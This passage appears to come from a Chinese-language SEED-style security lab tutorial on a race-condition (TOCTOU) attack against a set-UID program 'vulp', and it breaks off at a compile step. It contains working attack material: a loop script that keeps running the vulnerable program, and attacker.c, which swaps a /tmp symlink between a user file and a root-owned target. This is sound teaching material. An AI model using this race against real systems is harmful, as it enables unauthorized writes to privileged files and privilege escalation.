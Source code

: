 vulp.c 是在上面已经创建的，vulp 文件是编译 vulp.c 产生的文件，是我们的漏洞文件。

```bash
$ sudo gcc vulp.c -o vulp
```

 编译漏洞程序代码并将其设为SET-UID文件。设置suid只需运行以下命令：

```bash
$ sudo chmod u+s vulp
```

新建 root_file 文件，它是我们的目标文件：

```bash
$ sudo touch root_file 
$ sudo chmod g+w root_file
```

新建append_text 文件，在append_text文件中加入你想要在root_file里加入的任意内容，比如 shiyanlou ：

```bash
$ vi append_text
```

新建 tmp_file 文件，这是我们的助攻文件：

```bash
$ touch tmp_file
```


这样攻击条件就都具备了，这步之后都以普通用户的身份进行攻击。

2.创建检查时间戳的脚本check.sh，并将运行vulp的命令加入其中。
```
#!/bin/sh
#注意`不是单引号
old=`ls -l /home/shiyanlou/seed/root_file`
new=`ls -l /home/shiyanlou/seed/root_file`
while [ "$old" = "$new" ]
do
	./vulp < append_text
	new=`ls -l /home/shiyanlou/seed/root_file`
done
echo "STOP... The file has been changed"
```
不要忘记给脚本运行权限：	
	$ sudo chmod u+x check.sh

3.创建攻击代码attacker.c并编译

```
int main()
{
	while(1){
		system("ln -sf /home/shiyanlou/seed/tmp_file /tmp/XYZ");
		system("ln -sf /home/shiyanlou/seed/root_file /tmp/XYZ");
    }
    return 0;
}
```
编译命令如下：

